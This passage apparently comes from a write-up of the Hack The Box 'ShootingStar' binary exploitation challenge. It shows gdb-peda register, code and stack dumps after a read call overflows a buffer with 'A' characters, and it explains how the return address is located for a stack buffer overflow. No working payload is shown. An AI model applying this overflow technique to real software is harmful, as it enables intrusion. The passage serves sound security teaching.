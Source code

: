 ```shell
0x7fffffffe5b0:	0x0000000000000000	0x00007fffffffe912
0x7fffffffe5c0:	0x00007fffffffe922	0x00007fffffffe97a
0x7fffffffe5d0:	0x00007fffffffe98e	0x00007fffffffe9a5
0x7fffffffe5e0:	0x00007fffffffe9ce	0x00007fffffffe9e2
0x7fffffffe5f0:	0x00007fffffffe9f8	0x00007fffffffea07
0x7fffffffe600:	0x00007fffffffea4b	0x00007fffffffea5a
gdb-peda$
```
The highlighted portion of the image below is the stack frame, ending at the 64-bit word beginning at $rbp (0x7fffffffe480). The 64 bits after the stack frame contain the return value, which is outlined in green in the image below.
When the function returns, the return value is popped into $rip, so the program can resume execution of the calling function. 

In gdb, execute these commands, to execute the "read" instruction and view the stack frame again.
```shell
gdb-peda$ nexti
[----------------------------------registers-----------------------------------]
RAX: 0x4c ('L')
RBX: 0x7fffffffe5a8 --> 0x7fffffffe8c4 ("/home/darthv/git/badorius/vulnhub/hackthebox/ShootingStar/Files/shooting_star")
RCX: 0x7ffff7ea2011 (<read+17>:	cmp    rax,0xfffffffffffff000)
RDX: 0x200
RSI: 0x7fffffffe440 ('A' <repeats 75 times>, "\n")
RDI: 0x0
RBP: 0x7fffffffe480 ('A' <repeats 11 times>, "\n")
RSP: 0x7fffffffe430 --> 0x7ffff7f80540 --> 0x0
RIP: 0x401194 (<star+82>:	mov    edx,0x1a)
R8 : 0x4012d0 (<__libc_csu_fini>:	ret)
R9 : 0x7ffff7fce890 (endbr64)
R10: 0x3
R11: 0x246
R12: 0x0
R13: 0x7fffffffe5b8 --> 0x7fffffffe912 ("SHELL=/bin/bash")
R14: 0x0
R15: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0
EFLAGS: 0x203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401187 <star+69>:	mov    rsi,rax
   0x40118a <star+72>:	mov    edi,0x0
   0x40118f <star+77>:	call   0x401040 <read@plt>
=> 0x401194 <star+82>:	mov    edx,0x1a
   0x401199 <star+87>:	lea    rsi,[rip+0xe6c]        # 0x40200c
   0x4011a0 <star+94>:	mov    edi,0x1
   0x4011a5 <star+99>:	call   0x401030 <write@plt>
   0x4011aa <star+104>:	jmp    0x4011ea <star+168>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe430 --> 0x7ffff7f80540 --> 0x0
0008| 0x7fffffffe438 --> 0xa317ffff7e286ee
0016| 0x7fffffffe440 ('A' <repeats 75 times>, "\n")
0024| 0x7fffffffe448 ('A' <repeats 67 times>, "\n")
0032| 0x7fffffffe450 ('A' <repeats 59 times>, "\n")
0040| 0x7fffffffe458 ('A' <repeats 51 times>, "\n")
0048| 0x7fffffffe460 ('A' <repeats 43 times>, "\n")
0056| 0x7fffffffe468 ('A' <repeats 35 times>, "\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0000000000401194 in star ()
gdb-peda$
gdb-peda$ x/120x $rsp
0x7fffffffe430:	0x40	0x05	0xf8	0xf7	0xff	0x7f	0x00	0x00
0x7fffffffe438:	0xee	0x86	0xe2	0xf7	0xff	0x7f	0x31	0x0a
0x7fffffffe440:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe448:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```
